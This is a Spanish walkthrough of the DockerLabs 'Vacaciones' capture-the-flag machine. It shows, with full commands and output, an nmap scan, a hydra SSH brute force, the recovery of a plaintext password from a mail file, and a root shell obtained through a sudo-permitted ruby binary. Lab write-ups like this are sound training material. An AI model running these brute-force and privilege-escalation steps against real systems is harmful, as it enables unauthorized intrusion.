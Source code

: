 #Vacacciones DockerLabs - 14/05/2024

#web - https://dockerlabs.es/#/

Hacemos un escaneo de puertos con nmap:

```shell
└─$ nmap -sVC -p- -n --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 22:08 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00012s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 41:16:eb:54:64:34:d1:69:ee:dc:d9:21:9c:72:a5:c1 (RSA)
|   256 f0:c4:2b:02:50:3a:49:a7:a2:34:b8:09:61:fd:2c:6d (ECDSA)
|_  256 df:e9:46:31:9a:ef:0d:81:31:1f:77:e4:29:f5:c9:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.92 seconds

```
Accedemos a la web y vemos una pagina web en blanco:


Nos metemos a ver el codigo y vemos dos posibles usuarios "camilo" y "juan":


Creamos un archivo .txt con estos dos usuarios:
(Camilo es el usuario con el que hacer el ataque de fuerza bruta ponerlo el primero para que sea más rápido)

```shell
└─$ nano users.txt
```


Procedemos al ataque de fuerza bruta con hydra:

```shell
└─$ hydra -L /home/kali/Desktop/Machines/users.txt -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2/
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-14 22:35:54
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344400 login tries (l:1/p:14344400), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: camilo   password: password1
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-14 22:36:05
```
Accedemos via ssh:

```shell
└─$ ssh camilo@172.17.0.2
camilo@172.17.0.2's password: 
$ 
```

Probamos un sudo -l pero vemos que no funciona:

```shell
$ sudo -l
[sudo] password for camilo: 
Sorry, user camilo may not run sudo on d3c3148a6872.
```

Probamos a buscar binarios con permisos SUID pero no hay nada explotable:

```shell
camilo@d3c3148a6872:~$ find / -perm -4000 -user root 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/sudo
/bin/mount
/bin/umount
/bin/su

```

Viajamos entre directorios para ver que podemos encontrar vamos hasta "/home" y si hacemos ls vemos un direcorio llamado "var" entramos y encontramos otro llamado "mail" dentro hay otro que se llama "camilo"  y dentro encontramos un archivo "mail.txt" hacemos un cat y esto es lo que vemos:

```shell
camilo@d3c3148a6872:/var/mail/camilo$ cat correo.txt
Hola Camilo,

Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb

```

Ahora accedemos a la maquina con el usuario "root" y la contraseña "2k84dicb":

```shell
└─$ ssh root@172.17.0.2
root@172.17.0.2's password: 
Permission denied, please try again.
```

Lo probamos y vemos que el usuario no es root, ahora lo vamos a probar con el usuario "juan":

```shell
└─$ ssh juan@172.17.0.2
juan@172.17.0.2's password: 
$ 

```

Esta vez si funciona.
Ejecutamos un "sudo -l" para ver si podemos escarlar privilegios desde aqui:

```shell
$ sudo -l
Matching Defaults entries for juan on d3c3148a6872:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User juan may run the following commands on d3c3148a6872:
    (ALL) NOPASSWD: /usr/bin/ruby

```

Vemos que se puede ejecutar el binario "/usr/bin/ruby" sin contraseña:
Entramos a "https://gtfobins.github.io/gtfobins/ruby/" y pegamos el codigo en la terminal:

```shell
$ sudo ruby -e 'exec "/bin/sh"'

```

```shell
# whoami
root
# 
```
